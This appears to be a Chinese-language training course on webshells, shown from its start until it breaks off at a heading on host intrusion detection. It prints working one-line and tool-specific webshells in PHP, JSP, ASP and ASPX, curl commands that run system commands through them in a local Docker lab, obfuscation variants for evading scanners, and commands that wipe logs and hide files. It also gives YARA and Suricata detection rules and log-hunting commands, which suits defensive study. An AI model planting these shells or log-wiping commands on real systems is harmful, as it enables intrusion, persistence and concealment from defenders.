



# Webshell 详解 —— 从一句话木马到冰蝎 / 哥斯拉
## 📚 课程目录
| 课时 | 主题 | 时长 | 核心产出 |
| :---: | --- | :---: | --- |
| 第 1 课 | Webshell 是什么 + 一句话木马原理 | 60 min | 自己手写 PHP / JSP / ASPX 一句话 |
| 第 2 课 | 三大主流工具：菜刀 / 蚁剑 / 冰蝎 / 哥斯拉 | 70 min | 能装、能连、能抓流量 |
| 第 3 课 | 流量分析与加密通信原理 | 60 min | 看懂冰蝎 AES、哥斯拉 RSA，识别特征 |
| 第 4 课 | 隐藏 / 免杀 / 检测 / 防御 | 50 min | 查杀工具 + 流量规则 + 防御策略 |


# 🗓️ 第 1 课 · Webshell 是什么 + 一句话木马原理
## 1.1 什么是 Webshell？
### 一句话定义
**Webshell = 以 Web 文件形式存在的后门程序。**

它通过 Web 服务端口（80 / 443 / 8080 …）进入服务器，**复用 Web 服务的进程权限**执行命令或代码。

### 为什么黑客喜欢 webshell？


**关键洞察**：
+ 防火墙默认放行 80 / 443，**webshell 走的是合法通道**
+ Web 进程通常已有目录读写权限，**不需要再提权就能干活**
+ HTTP 请求 + 加密 = **流量侧极难发现**

### Webshell 分类（按功能粒度）
```plain
                ┌─── 一句话木马    （1 行，最隐蔽，最常用）
                │
Webshell ───────┼─── 小马           （几行～几十行，带命令执行 + 上传）
                │
                └─── 大马           （几 KB ~ 几百 KB，带 GUI / 菜单）
```

| 类型 | 体积 | 典型形态 | 适用场景 |
| --- | --- | --- | --- |
| 一句话 | < 100 B | `<?php @eval($_POST['x']);?>` | 上传漏洞后第一个动作 |
| 小马 | < 2 KB | 命令执行 + 文件上传表单 | 服务器限制大文件上传时 |
| 大马 | 几十 KB ~ MB | 完整管理面板（文件/数据库/终端） | 长期驻留 / 横向移动 |


---

## 1.2 一句话木马的"灵魂"
### 通用结构
```plain
触发函数 ( 接收用户输入并执行的通道 )
   │
   ├── PHP:    eval / assert / create_function / preg_replace /
   ├── ASP:    Execute / ExecuteGlobal / Eval
   ├── ASPX:   System.Reflection.Assembly.Load
   └── JSP:    Runtime.getRuntime().exec(...) / 反射 ClassLoader
```

### 各语言最小一句话
```php
// PHP 最经典（中国菜刀原版）
	<?php @eval($_POST['cmd']);?>
```

```plain
<!-- ASP 一句话 -->
<%execute(request("cmd"))%>
```

```plain
<!-- ASPX 一句话（利用反射加载 C# 字节码） -->
<%@ Page Language="C#" %>
<%System.Reflection.Assembly.Load(Convert.FromBase64String(Request["cmd"])).CreateInstance("Class").GetType().InvokeMember("Run", System.Reflection.BindingFlags.Default, null, null, null);?>
```

```plain
// JSP 一句话（直接执行命令）
<%
    String cmd = request.getParameter("cmd");
    Process p = Runtime.getRuntime().exec(cmd);
    java.io.InputStream is = p.getInputStream();
    byte[] b = new byte[2048];
    int len;
    while ((len = is.read(b)) > 0) out.print(new String(b, 0, len));
%>
```

### 逐字符拆解 `<?php @eval($_POST['cmd']);?>`
| 字符 | 作用 | 为什么这么做 |
| --- | --- | --- |
| `<?php` | PHP 代码起始标记 | 标准 |
| `@` | 错误抑制符 | 避免执行失败时把 warning 抛到页面 |
| `eval` | **核心**：把字符串当代码执行 | 整个一句话的能力来源 |
| `$_POST['cmd']` | 从 POST body 取 key 为 `cmd` 的值 | 走 POST 不走 GET，避免日志记录 |
| `;` | 语句结束 | PHP 语法 |
| `?>` | 闭合标记（可省略） | — |


🎯 **灵魂理解**：  eval 是 PHP 的 **"代码 → 执行"** 桥梁。  你 `POST cmd=phpinfo();` 进去，PHP 引擎就把这串字符当代码执行。  **整句话就是"留了一条通道"，让攻击者以后随便塞 PHP 代码进来执行。**

---

## 1.3 PHP 一句话的实操（Docker 环境）
### 准备靶场
```bash
# 起一个纯 PHP 靶场
docker run -d --name webshell-lab \
  -p 8090:80 \
  -v /tmp/webshell:/var/www/html \
  php:7.4-apache


# windows中的命令
docker run -d --name webshell-lab -p 8090:80 -v C:\tmp\webshell:/var/www/html php:7.4-apache

mkdir -p /tmp/webshell
```

### 写入一句话
```bash
cat > /tmp/webshell/shell.php <<'EOF'
<?php @eval($_POST['cmd']);?>
EOF
```

### 用 curl 模拟连接（不用工具）
```bash
# 测试 phpinfo
curl -X POST http://localhost:8090/shell.php \
  -d 'cmd=phpinfo();'

# 列出当前目录文件
curl -X POST http://localhost:8090/shell.php \
  -d 'cmd=var_dump(scandir("."));'

# 执行系统命令
curl -X POST http://localhost:8090/shell.php \
  -d 'cmd=system("id;uname -a");'
```

✅ **关键理解**：`cmd= 后面跟的就是 PHP 代码片段（必须带分号），不是 shell 命令。  想执行 shell 命令需要套 system()、exec()、shell_exec()、反引号```等。`


## 1.4 常见 PHP 一句话变种（绕过时常用）


### 经典变种清单
```php
<?php assert($_POST['x']);?>                    // PHP 5.x 用 assert
<?php $f=create_function('',$_POST['x']);$f();?> // create_function
<?php preg_replace("/(.)/e",$_POST['x'],'');?>   // PHP<5.5 /e
<?php $f='as'.'sert';$f($_POST['x']);?>          // 字符串拼接绕关键字
<?php array_map('assert',array($_POST['x']));?>  // 回调函数
<?php call_user_func('assert',$_POST['x']);?>    // 回调
<?php $a=str_replace('x','','axsxxsexxrxt');$a($_POST['x']);?>  // 字符替换
```

⚠️ **PHP 7+ 限制**：assert 不再是函数而是语言结构，无法被回调 / 动态调用。  
现代 PHP 一句话仍以 eval 为主，但 webshell 工具会改用更复杂的形态（见第 3 课冰蝎原理）。

---

## 1.5 JSP 一句话的特殊性
JSP 没有 `eval` 这种"执行字符串"的功能，必须靠 **类加载器 / 反射**：

```plain
<%@ page import="java.io.*, java.util.*" %>
<%
    // 菜刀早期 JSP 一句话：直接 ProcessBuilder
    String cmd = request.getParameter("cmd");
    ProcessBuilder pb = new ProcessBuilder(
        System.getProperty("os.name").toLowerCase().contains("win") ?
        new String[]{"cmd.exe","/c",cmd} : new String[]{"/bin/sh","-c",cmd}
    );
    pb.redirectErrorStream(true);
    Process p = pb.start();
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line=br.readLine())!=null) out.println(line);
%>
```

**冰蝎 JSP 通用 shell**（核心是 ClassLoader 加载字节码）：

```plain
<%!
class U extends ClassLoader {
    U(ClassLoader p){ super(p); }
    public Class g(byte[] b){ return super.defineClass(b,0,b.length); }
}
%>
<%
    String cls = request.getParameter("cls");
    if (cls != null) {
        byte[] data = Base64.getDecoder().decode(cls);
        new U(this.getClass().getClassLoader()).g(data)
            .newInstance().equals(new Object[]{request,response});
    }
%>
```

🎯 **核心理解**：JSP webshell 的本质是 **"动态加载一段字节码"**，客户端把功能代码（命令执行、文件上传）编译成 .class 字节码，Base64 后塞进请求，服务端 defineClass 后反射调用。

---

## 1.6 第 1 课小结
| 知识点 | 一句话理解 |
| --- | --- |
| Webshell 定义 | 以 Web 文件存在的后门，复用 Web 进程权限 |
| 一句话核心 | `eval($_POST[...])` —— 代码执行函数 + 输入通道 |
| POST 而非 GET | 避免日志记录，且 payload 大 |
| PHP 主流函数 | eval / assert / create_function / preg_replace /e |
| JSP 差异 | 无 eval，靠 ClassLoader 加载字节码 |
| 大马 vs 一句话 | 一句话靠工具配合，大马自带 GUI |


### 课间实操（10 分钟）
```bash
# 1. 起靶场（如未完成）
docker run -d --name ws -p 8090:80 -v /tmp/ws:/var/www/html php:7.4-apache
mkdir -p /tmp/ws

# 2. 写 5 个不同变种的一句话到 /tmp/ws/
cat > /tmp/ws/s1.php <<'EOF'
<?php @eval($_POST['cmd']);?>
EOF
cat > /tmp/ws/s2.php <<'EOF'
<?php assert($_POST['cmd']);?>
EOF
cat > /tmp/ws/s3.php <<'EOF'
<?php $f=create_function('',$_POST['cmd']);$f();?>
EOF
cat > /tmp/ws/s4.php <<'EOF'
<?php $a='as'.'sert';$a($_POST['cmd']);?>
EOF
cat > /tmp/ws/s5.php <<'EOF'
<?php call_user_func('assert',$_POST['cmd']);?>
EOF

# 3. curl 测试每个变种是否生效
for f in s1 s2 s3 s4 s5; do
  echo "--- $f ---"
  curl -s -X POST http://localhost:8090/$f.php -d "cmd=echo 'HELLO_'.$f;" | head -3
done
```

预期：s1 ✅、s2 ❌（PHP 7+ assert 失效）、s3 ✅、s4 ❌、s5 ❌。

---

# 🗓️ 第 2 课 · 三大主流工具：菜刀 / 蚁剑 / 冰蝎 / 哥斯拉
## 2.1 工具发展史


### 工具对比表
| 工具 | 语言 | 加密 | 跨平台 | 一句话支持 | 特点 |
| --- | --- | --- | :---: | :---: | --- |
| 中国菜刀 | Delphi | ❌ 明文 | ❌ Windows | ✅ 经典 | 已停更，特征最明显 |
| 蚁剑 AntSword | Electron+Node | URL 编码（默认） | ✅ | ✅ | 插件丰富，UI 现代 |
| 冰蝎 Behinder | Java | ✅ AES（v3 动态密钥） | ✅ | ❌ 需专用 shell | 加密，查杀难度高 |
| 哥斯拉 Godzilla | Java | ✅ AES+RSA / XOR | ✅ | 部分支持 | 支持多容器、多 payload |


---

⭐⭐⭐**蚁剑最适合 php，冰蝎和哥斯拉 最适合 jsp**

****

## 2.2 中国菜刀（China Chopper）
历史地位：中国最早流行的 webshell 管理器（作者：Chopper，2006 年），虽已停更多年，但其 **"一句话"格式** 至今是事实标准。


### 菜刀流量特征
请求 body 直接明文：

```plain
POST /shell.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

cmd=eval(base64_decode($_POST[z0]));&z0=...Base64字符串...
```

实际上菜刀老版本走的是更原始的格式：

```plain
cmd=assert|eval("base64_decode('...')");
```

**正则特征**（IDS / WAF 可直接抓）：

+ `body` 中出现 `eval(`、`base64_decode(`
+ `Referer`、`User-Agent` 含特殊字段
+ `Accept: text/plain`、`Cookie: PHPSESSID=`

---

## 2.3 蚁剑（AntSword）安装与使用
### 安装
```bash
# Mac / Linux
git clone https://github.com/AntSwordProject/antSword.git
cd antSword
npm install
npm start

# 或直接下载 release
# https://github.com/AntSwordProject/antSword/releases
```

### 添加 Shell
1. 启动后点击「+」→ 新增数据
2. 填写：
    - URL：`http://localhost:8090/s1.php`
    - 密码：`cmd`（即 `$_POST['cmd']` 的 key）
    - 编码器：`base64`（默认）/ `chr` / `chr16`
    - 类型：PHP
3. 保存 → 双击进入

### 蚁剑默认流量
请求 body（base64 编码器）：
```plain
POST /s1.php
Content-Type: application/x-www-form-urlencoded
User-Agent: antSword/v2.1

cmd=@eval(base64_decode($_POST[action]));&action=QGluaV9zZXQ...（PHP代码Base64）
```

**action 解开后的内容**：
```php
@ini_set("display_errors","0");
@set_time_limit(0);
function asenc($out){return @base64_encode($out);}
function asoutput(){
    $output=ob_get_contents();
    ob_end_clean();
    echo "6d7239a";  // 随机分隔符
    echo @asenc($output);
    echo "8a0a3b";
}
ob_start();
try{
    $D=dirname($_SERVER["SCRIPT_FILENAME"]);
    ...// 实际功能代码
}catch(Exception $e){echo "ERROR://".$e->getMessage();}
asoutput();
die();
```

**特征关键词**（IDS 必抓）：

+ `asenc`、`asoutput`、`asunc`、`asdisp`
+ 随机 6 位 hex 分隔符
+ `base64_decode($_POST[action])`

### 蚁剑编码器插件
打开「编码器」管理，常见插件：

| 编码器 | 原理 | 用途 |
| --- | --- | --- |
| default | 明文 + base64 header | 默认，特征明显 |
| base64 | PHP 代码整体 base64 | 绕简单 WAF |
| chr | `chr(97).chr(98)...` 拼接 | 绕关键字 WAF |
| chr16 | 十六进制 `"\x61\x62"` | 同上 |
| rot13 | str_rot13 | 绕过字符串匹配 |
| **AES**（自定义） | 客户端加密 shell 解密 | 接近冰蝎 |


---

## 2.4 冰蝎（Behinder）
### 为什么要造冰蝎？


### 冰鞘核心思想
> **预共享密钥 + AES 加密**。  
Shell 文件内嵌一个固定密钥，客户端用同样密钥加密 payload，WAF 看到的全是密文。

### 冰蝎 v3 shell 模板（PHP）
```php
<?php
@error_reporting(0);
session_start();
$key="e45e329feb5d925b";   // 16字节 AES 密钥（这里写死）
$_SESSION['k']=$key;
$post=file_get_contents("php://input");
if(!extension_loaded('openssl')){
    $t="base64_"."decode";
    $post=$t($post."");
    for($i=0;$i<strlen($post);$i++){
        $post[$i] = $post[$i]^$key[$i+1&15];
    }
}else{
    $post=openssl_decrypt($post, "AES128", $key);
}
$arr=explode('|',$post);
$func=$arr[0];
$params=$arr[1];
class C{public function __construct($p){@eval($p);}}
@new C($params);
?>
```

**逐行解析**：

| 行                                    | 作用                            |
| ------------------------------------ | ----------------------------- |
| `session_start()`                    | 启用 session                    |
| `$key="e45e3..."`                    | **硬编码 16 字节密钥**               |
| `file_get_contents("php://input")`   | 从 raw body 读取（不是 `$_POST`！）   |
| `openssl_decrypt(...,"AES128",$key)` | AES-128-CBC 解密                |
| `explode('                           | ',$post)`                     |
| `class C{...__construct...eval}`     | **用类构造函数绕过 **`eval`** 关键字检测** |


> 🎯 **冰蝎 v3 vs v2 区别**：
> + v2：密钥从 GET 头带回（`?pass=xxx`），首包会被抓
> + v3：密钥硬编码在 shell 内，**全程密钥不出现在流量中**

### 冰蝎客户端使用
1. 下载：`https://github.com/rebeyond/Behinder/releases`
2. shell 模板内置 → 传输方式选「PHP / JSP / ASPX」
3. 把 shell.php 上传到目标 → 在冰蝎里添加 URL
4. 自动协商 → 进入 GUI

### 冰蝎功能演示
| 功能 | 说明 |
| --- | --- |
| 文件管理 | 上传 / 下载 / 编辑 / 重命名 |
| 虚拟终端 | 直接 shell（Linux/Win） |
| 数据库管理 | 支持 MySQL/MSSQL/Oracle/... |
| 内网穿透 | Socks 代理 + 端口转发 |
| 反弹 Shell | Java Meterpreter |
| 内存马 | 注入 Tomcat Filter / Spring Interceptor |


---

## 2.5 哥斯拉（Godzilla）
### 与冰蝎的区别
| 维度 | 冰蝎 | 哥斯拉 |
| --- | --- | --- |
| 加密方式 | AES 单密钥 | AES + RSA 密钥交换 / XOR |
| 支持容器 | PHP / JSP / ASPX | + .NET / 老版 ASP / 调试模式 |
| Payload 数 | 中等 | 丰富，可自定义 |
| 内存马 | 主要 Tomcat | Tomcat / WebLogic / Spring |
| 流量特征 | 固定前缀 `过期 please update` 等 | 流量动态，难抓 |


### 哥斯拉 PHP shell 模板
```php
<?php
session_start();
function T($k){
    $m = md5($k);
    return substr($m, 0, 16) . substr($m, 16);
}
function R(){
    $key = T($_POST['pass']);
    $content = file_get_contents("php://input");
    if(!extension_loaded('openssl')){
        ...// XOR 解密
    }else{
        $content = openssl_decrypt($content, 'AES-128-ECB', $key, OPENSSL_RAW_DATA);
    }
    ...
    @eval($content);
}
R();
?>
```

> 🎯 **哥斯拉特性**：
> + 密钥由 **POST 参数**`pass`** 的 MD5 截断** 生成
> + 第一包 RSA 交换会话密钥，之后全用会话密钥
> + 不同请求带 **不同 pass 值** 时密钥变化 → 难抓特征

### 客户端使用
1. 下载：`https://github.com/BeichenDream/Godzilla/releases`
2. 新建 → 选 PHP/JSP → 选加密方式（默认 PHP_X509_RSA）
3. 设置密码（即 pass 参数名）和密钥
4. 上传生成 shell.php → 添加 → 测试连接

---

## 2.6 实操：把蚁剑 / 冰蝎 / 哥斯拉连上靶场
### 第一步：上传 shell
```bash
# 用第 1 课的 /tmp/webshell 目录
cp /path/to/behinder_shell.php /tmp/ws/bx.php
cp /path/to/godzilla_shell.php /tmp/ws/god.php
```

### 第二步：分别连接
| 工具 | URL | 密码字段 |
| --- | --- | --- |
| 蚁剑 | `http://localhost:8090/s1.php` | `cmd` |
| 冰蝎 | `http://localhost:8090/bx.php` | 无（密钥内置） |
| 哥斯拉 | `http://localhost:8090/god.php` | `pass` |

### 第三步：抓包对比（用 Burp）
打开 Burp → Proxy → Options → 绑定 8081 → 系统代理设到 127.0.0.1:8081  
→ 在三个工具中分别点击「文件管理」→ 观察 HTTP History 中的请求。

**预期结果**：
+ 蚁剑：body 中能直接看到 `cmd=@eval(...)` 字样
+ 冰蝎：body 是不可读密文（Base64 长串）
+ 哥斯拉：body 同样是密文，但有 `pass=` 参数

---

## 2.7 第 2 课小结
| 工具     | 流量特征                            | 抓包体感      |
| ------ | ------------------------------- | --------- |
| 中国菜刀   | 明文 + `assert` / `base64_decode` | 一眼见       |
| 蚁剑（默认） | base64 + asenc/asoutput + 随机分隔符 | 半加密，关键字清晰 |
| 冰蝎     | AES 全加密，body 不可读                | 看不懂       |
| 哥斯拉    | RSA 协商 + AES，无固定特征              | 几乎抓不到     |

### 课间实操（15 分钟）
1. **三工具同时连同一个靶场**，对比 HTTP History 中的 3 条请求
2. **改蚁剑编码器** 从 base64 改成 chr，重连，对比流量
3. **改冰蝎密钥** 重新生成 shell，观察 WAF 是否还能识别

---

# 🗓️ 第 3 课 · 流量分析与加密通信原理
## 3.1 为什么流量分析重要？


> 🎯 **核心矛盾**：
> + 红队希望流量"看不出是 webshell"
> + 蓝队希望从流量中"挑出 webshell 通信"
> + 这场博弈的本质就是 **加密 vs 特征识别**

---

## 3.2 用 Wireshark 抓本地流量
### 环境准备
```bash
# 起靶场（同前）
docker run -d --name ws -p 8090:80 -v /tmp/ws:/var/www/html php:7.4-apache

# Mac 启动 wireshark，监听 lo0 / loopback
sudo wireshark -k -i lo0
```

### 抓包过滤器
```plain
# 只看与靶场通信
tcp.port == 8090
```

### 抓一次蚁剑请求
在蚁剑里点击一次「文件管理」→ 在 Wireshark 中找 `POST /s1.php` → Follow TCP Stream。

**完整 TCP Stream 示例**：
```plain
POST /s1.php HTTP/1.1
Host: localhost:8090
Accept-Language: zh-CN
User-Agent: antSword/v2.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 1234

cmd=%40eval%28base64_decode%28%24_POST%5B...%5D%29%29%3B&action=QGluaV9...（Base64）
```

### 关键特征抽取
```plain
# 蚁剑 URL-encoded body 特征
%40eval   →  @eval
%28       →  (
%24_POST  →  $_POST
```

---

## 3.3 各工具请求 / 响应特征矩阵
### 蚁剑特征
| 维度 | 特征 |
| --- | --- |
| UA | `antSword/vX.X` （可改） |
| Content-Type | `application/x-www-form-urlencoded` |
| Body 关键字 | `cmd=`、`@eval(`、`base64_decode($_POST[`、`asenc`、`asoutput` |
| 响应分隔符 | 6 位 hex 随机串：`6d7239a...8a0a3b` |
| 编码后特征 | 字符串 `$__=array(...)`、`asenc(asoutput())` |


### 冰蝎 v3 特征
| 维度 | 特征 |
| --- | --- |
| UA | 常见 `Mozilla/5.0`（伪装浏览器） |
| Content-Type | `application/x-www-form-urlencoded` |
| Accept | `text/html, image/gif, image/jpeg` |
| Cookie | 每次会话不同（PHPSESSID 随机） |
| Body | 不可读密文，**长度总是 16 / 32 / 48 字节倍数** |
| 请求头 | 固定 `Referer`、`Accept-Encoding: identity` |
| 响应 | 同样 AES 密文 + 16 字节对齐 |


### 哥斯拉特征
| 维度 | 特征 |
| --- | --- |
| URL | `?pass=xxxx` 或 `?pwd=xxxx` |
| Content-Type | `application/x-www-form-urlencoded` |
| Body | RSA 密文 / AES 密文 |
| 第一包 | 服务端响应 `set-cookie: JSESSIONID=xxx` |
| 后续包 | Cookie 携带会话 ID |


---

## 3.4 冰蝎 AES 原理深挖
### 1. 密钥怎么来？


### 2. AES-128-CBC 加解密（Python 复现）
```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import base64

KEY = b"e45e329feb5d925b"  # shell 内的密钥
IV  = b"0000000000000000"  # 冰蝎 v3 默认 IV 全 0
plaintext = b'echo "hacked";'

cipher = AES.new(KEY, AES.MODE_CBC, IV)
ciphertext = cipher.encrypt(pad(plaintext, 16))
print("密文 Base64:", base64.b64encode(ciphertext).decode())

# 解密（服务端流程）
cipher2 = AES.new(KEY, AES.MODE_CBC, IV)
recovered = unpad(cipher2.decrypt(ciphertext), 16)
print("明文:", recovered.decode())
```

### 3. 抓一个冰蝎包并解密
```python
# 假设抓到的 body 是 body.b64
import base64
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

KEY = b"e45e329feb5d925b"
IV  = b"\x00"*16

body = open("body.b64","rb").read()
ct = base64.b64decode(body)
pt = unpad(AES.new(KEY, AES.MODE_CBC, IV).decrypt(ct), 16)
print(pt.decode('utf-8', errors='replace'))
```

> 🎯 **核心结论**：  
**冰蝎的 AES 并不安全 —— 密钥固定写死在 shell 里。**  
只要拿到 shell 文件，所有历史流量都能解密。  
这就是为什么 v4 之后改用 **会话密钥动态协商**。
>

---

## 3.5 哥斯拉的 RSA + AES 协商
### 协商流程


### 为什么这样设计？
1. RSA 公私钥对每次客户端启动重新生成 → **不能预测**
2. AES 会话密钥只在第一包出现（且 RSA 加密） → **流量中拿不到**
3. 即使拿到 shell 文件，**也只能解密自己本次会话的流量**

---

## 3.6 写一条简单的 IDS 规则
### Suricata 规则示例（针对蚁剑）
```plain
alert http any any -> any any (msg:"AntSword Default Encoder Detected"; \
    flow:established,to_server; \
    content:"cmd=%40eval"; \
    content:"base64_decode"; \
    http_client_body; \
    reference:url,github.com/AntSwordProject/antSword; \
    sid:1000001; rev:1;)
```

### 针对 IceSword v3 的特征
```plain
alert http any any -> any any (msg:"Behinder v3 Suspicious Traffic"; \
    flow:established,to_server; \
    content:"php://input"; \
    pcre:"/Body长度为16字节倍数/"; \
    sid:1000002; rev:1;)
```

⚠️ **现实是**：现代冰蝎 / 哥斯拉**特征极弱**，单纯靠规则抓不到。  
真正的检测要靠 **异常行为基线**（如某 PHP 文件突然收到大量 POST）。

---

## 3.7 内存马原理（高阶，必懂概念）
### 为什么要有内存马？
```plain
传统 webshell：写文件到磁盘 → 文件查杀能扫到
内存马：      注入到运行中进程 → 磁盘上没文件，查杀扫不到
```

### Tomcat Filter 型内存马原理
```mermaid
graph LR
    A["HTTP 请求"] --> B["Tomcat 容器"]
    B --> C["FilterChain"]
    C --> D["Filter 1"]
    C --> E["Filter 2 (恶意)"]   ← 内存马
    C --> F["Servlet"]
    E --> G["匹配到攻击者<br/>特定 header 就执行命令"]
```

**核心步骤**（Java 代码思路）：
1. 通过 webshell（或反序列化漏洞）执行一段 Java 代码
2. 获取当前 `ServletContext`
3. 用反射创建一个恶意 `Filter` 对象
4. 通过 `addFilterDef` + `addFilterMapBefore` 注册到 FilterChain
5. 后续只要带特定 Header（如 `cmd: xxx`）就会被这个 Filter 拦截并执行

### Spring Controller 型内存马
```java
// 伪代码
@RequestMapping("/api/health")
public void memShell(HttpServletRequest req, HttpServletResponse resp) {
    String cmd = req.getHeader("X-Token");
    if (cmd != null) {
        // 注册一个新 Controller
        RequestMappingHandlerMapping mapping =
            (RequestMappingHandlerMapping) ctx.getBean("requestMappingHandlerMapping");
        // ...反射注册新方法
    }
}
```

🎯 **记忆要点**：  
内存马 = **运行时把恶意代码塞进 Web 容器已有的处理器链**  
它不是文件，`find / -name "*.jsp"`** 找不到它**。  
重启容器就消失 → 蓝队应急时**先 dump 内存再重启**。

---

## 3.8 第 3 课小结
| 概念 | 关键理解 |
| --- | --- |
| 抓包流程 | Wireshark / Burp → Follow TCP Stream → 看 body |
| 蚁剑特征 | base64 + 关键字 `asenc/asoutput` + 6 位 hex 分隔符 |
| 冰蝎原理 | AES-128-CBC，密钥硬编码 16 字节 |
| 哥斯拉升级 | RSA 协商 AES 会话密钥，密钥不出现在流量 |
| 内存马 | 注入到 Tomcat Filter / Spring Controller，无文件 |
| 检测难点 | 加密后特征弱，靠行为基线 |

### 课间实操（15 分钟）
1. **Wireshark 抓一次冰蝎请求**，保存 body 到 `bx.b64`
2. **用上面的 Python 脚本解密**，对比客户端发的实际 PHP 代码
3. **找一找蚁剑的 asenc 函数定义**，理解为什么响应要这样包

---

# 🗓️ 第 4 课 · 隐藏 / 免杀 / 检测 / 防御
## 4.1 红队视角：Webshell 怎么藏？
### 藏在哪里？


### 常见技巧清单
| 技巧 | 实现 | 示例 |
| --- | --- | --- |
| 改名 | 利用 PHP 多扩展名 | `shell.php.jpg` |
| 隐藏字符 | 利用不可见 Unicode | `shel\u200bl.php` |
| 时间戳修改 | `touch -r index.php shell.php` | 与原文件同 mtime |
| 文件属性 | `chattr +ia shell.php` | 防止删除 |
| 图片马 | 图片中嵌入 PHP | 见文件上传课程 |
| 配置触发 | `.htaccess AddType application/x-httpd-php .jpg` | 让 .jpg 执行 PHP |


### 日志擦除
```bash
# 通用痕迹清理（仅用于理解，真实环境禁用）
export HISTFILE=/dev/null        # 不记录 bash history
unset HISTORY HISTFILE HISTSAVE
# Web 日志
sed -i '/192.168.1.100/d' /var/log/apache2/access.log
# utmp / wtmp
echo > /var/log/wtmp
```

⚠️ **应急响应角度**：  
攻击者清理日志 → 检查 `atime`** / **`mtime`** 异常**、**日志时间空隙**、**rsyslog 转发到 SIEM**。

---

## 4.2 免杀技术
### 免杀的层次
```plain
L1  关键字替换          eval → assert / preg_replace /e
L2  字符串变形          str_replace / base64 / hex / chr
L3  动态调用            变量函数 / call_user_func / array_map
L4  自定义加密          客户端+服务端约定加密算法
L5  语言结构特性        反射 / ClassLoader / 注解
L6  无文件内存马        注入到容器内部
```

### 各语言免杀思路
#### PHP
```php
<?php
// 利用各种字符串变换绕过静态查杀
$s = 'aQ==';                       // base64 of 'a' 不完整
$f = base64_decode(strrev('=lft')); // = eval
$c = $_POST['x'];
$f($c);                            // 动态调用
?>
```

#### Java
```java
// 利用 JSP 反射 + ClassLoader（哥斯拉 JSP shell 核心）
Class u = ClassLoader.class;
Method m = u.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
m.setAccessible(true);
byte[] code = Base64.getDecoder().decode(request.getParameter("cls"));
Class c = (Class) m.invoke(this.getClass().getClassLoader(), code, 0, code.length);
c.newInstance().equals(request);
```

#### .NET
```csharp
// 利用 System.Reflection.Assembly.Load
<%@ Page Language="C#" %>
<%
byte[] code = Convert.FromBase64String(Request["c"]);
Assembly a = Assembly.Load(code);
a.CreateInstance("Payload").Equals(Context);
%>
```

---

## 4.3 蓝队视角：怎么检测 Webshell？
### 三道防线


### 文件扫描工具
| 工具 | 适用平台 | 特点 |
| --- | --- | --- |
| **Webshell Killer**（D 盾） | Windows | 国内最常用，规则强 |
| **河马**（shellpub） | Win / Linux | 在线查杀 + API |
| **LMD**（Linux Malware Detect） | Linux | 基于签名 |
| **ClamAV** | 跨平台 | 开源，可集成 |
| **YARA** | 跨平台 | 规则自定义，灵活 |
| **Neopi** | Python | 基于"熵值"找高熵可疑文件 |


### YARA 规则示例
```plain
rule PHP_Webshell_Eval_POST {
    meta:
        description = "Detects classic PHP one-liner"
        author      = "blue-team"
    strings:
        $a = /eval\s*\(\s*\$_(POST|REQUEST|GET|COOKIE)/ nocase
        $b = /assert\s*\(\s*\$_(POST|REQUEST|GET|COOKIE)/ nocase
        $c = /create_function\s*\(/ nocase
    condition:
        $a or $b or $c
}

rule PHP_Behinder_v3 {
    meta:
        description = "Behinder v3 shell"
    strings:
        $key = "e45e329feb5d925b"
        $func = "openssl_decrypt"
        $construct = "class C"
    condition:
        $key and $func
}
```

### 河马 / D 盾检测原理
1. **正则规则库**：特征关键字
2. **AST 语法树分析**：理解代码逻辑（识别变量函数调用）
3. **熵值分析**：高熵字符串 → 加密 payload 嫌疑
4. **ML 模型**：基于已知 webshell 训练的分类器

---

## 4.4 Nginx / Apache 日志中找 webshell
### 关键指标
```bash
# 找高频 POST 到单个文件
awk '$6 ~ /POST/ {print $7}' /var/log/nginx/access.log | \
    sort | uniq -c | sort -rn | head -20

# 找 User-Agent 是 antSword / China Chopper
grep -E "antSword|China Chopper|Behinder|Godzilla" /var/log/nginx/access.log

# 找 Content-Length 异常大的 POST
awk '$6 ~ /POST/ && $10 > 10000' /var/log/nginx/access.log
```

### 行为基线
| 异常信号 | 说明 |
| --- | --- |
| 某 PHP 文件被 POST 数百次 | 极可疑 |
| 同一文件 POST 来自不同 IP | 横向扩散 |
| User-Agent 与扫描器匹配 | 工具特征 |
| 响应 Content-Type 与该文件预期不符 | 可能被注入 |
| 文件 mtime 与日志访问时间不一致 | webshell 被植入 |


---

## 4.5 HIDS 与 EDR
### HIDS（Host IDS）
